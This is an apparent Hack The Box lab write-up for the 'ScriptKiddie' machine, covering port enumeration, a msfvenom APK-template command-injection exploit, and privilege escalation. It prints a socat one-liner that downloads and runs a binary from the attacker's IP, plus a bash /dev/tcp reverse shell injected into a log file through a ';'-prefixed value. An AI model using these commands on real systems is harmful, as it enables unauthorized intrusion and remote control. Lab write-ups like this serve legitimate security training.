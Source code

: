```yaml
---
layout: post
title: ScriptKiddie
published: false
---
```


**ScriptKiddie is an easy machine from Hack The Box.**

### Enumeration

I'll start with a quick `nmap` scan to enumerate open ports.
`nmap -sC -sV -oN nmap/basic scriptkiddie.htb`

Pretty barebones machine, only ports 22 and 80 are open.
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I'll run a couple `gobuster` searches in the background while I check out the webserver but I'm not going to find anything.

The webpage appears to have a few different functionalities. Seems like it will run an nmap scan, create msfvenom payloads or search via searchsploit for user inputs.

![Webpage](https://user-images.githubusercontent.com/60187707/120905511-1fcd6000-c618-11eb-84a6-366d172a44fb.png)

### Initial Foothold
After searching for information about the backend system, I found an RCE script for Werkzeuk but does not seem to work as the debugging function in question is not enabled on the server.

![Pasted image 20210603130610](https://user-images.githubusercontent.com/60187707/120905665-4213ad80-c619-11eb-8fe3-241bcfae6cd0.png)

The `msfvenom` widget has Android templates as an optional file upload and, after a bit of googling, found [this script.](https://packetstormsecurity.com/files/161200/Metasploit-Framework-6.0.11-Command-Injection.html)

Essentially, it exploits a vulnerability in `msfvenom` that will execute a payload hidden inside a `.apk` template. Use `apk.py` to generate the malicious package.

![Pasted image 20210604102216](https://user-images.githubusercontent.com/60187707/120905729-b5b5ba80-c619-11eb-899b-de82a6a4ec47.png)

I tried a few various bash reverse shells as my payload, but using `socat` was what got me onto the machine.
`wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444
`

![Pasted image 20210604101927](https://user-images.githubusercontent.com/60187707/120905760-e695ef80-c619-11eb-92a8-b21eb382e9e2.png)

I am on as the user `kid`.

#### Privesc
I do some poking around the filesystem, run `linPEAS`, and find indications of a possible `sudo` vulnerability, but that ended up being a dead-end.

Inside the user `pwn` directory, there is a script called `scanlosers.sh`. As far as I can tell, the script takes data from the file `/home/kid/logs/hackers` to run an `nmap` command.

![Pasted image 20210604121547](https://user-images.githubusercontent.com/60187707/120905835-789df800-c61a-11eb-8ea6-82ec65f9caf2.png)

I can write to `hackers` because `kid` is the owner.

![Pasted image 20210604121933](https://user-images.githubusercontent.com/60187707/120905840-8489ba00-c61a-11eb-9f3a-5468e8dd6589.png)

So, I'll start a listener and `echo` a reverse shell into `hackers`, with a `;` at the beginning to start a new command and a `#` at the end to comment out the rest of the script.
`echo "  ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1' #" >> hackers`

![Pasted image 20210604122051](https://user-images.githubusercontent.com/60187707/120905898-d7fc0800-c61a-11eb-851d-4222c175fb13.png)

Now, I'm on as user `pwn`.

Run a quick `sudo -l` to check `pwn`'s permissions.

![Pasted image 20210604122204](https://user-images.githubusercontent.com/60187707/120905913-f4984000-c61a-11eb-89c4-dbd399b3a703.png)

I can run `msfconsole` as `root` without a password. Seems promising!

Checking the `msfconsole` help page, I find a `-x` flag that will execute console commands. Could it be that easy?
`sudo msfconsole -x su`

![Pasted image 20210604122329](https://user-images.githubusercontent.com/60187707/120905920-04178900-c61b-11eb-9dfc-d12292cab333.png)

Apparently!
